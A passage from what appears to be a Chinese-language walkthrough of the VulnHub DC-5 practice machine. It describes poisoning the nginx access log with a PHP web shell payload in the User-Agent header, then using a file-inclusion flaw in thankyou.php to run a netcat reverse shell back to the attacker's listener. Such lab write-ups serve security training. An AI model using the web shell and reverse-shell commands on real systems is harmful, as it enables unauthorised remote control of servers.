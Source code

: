 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/9.png)

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`

kali 开启 nc 监听
```bash
nc -nlvp 4444
```

访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.141.134 4444 -e /bin/bash` 测试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/10.png)

弹回来了

---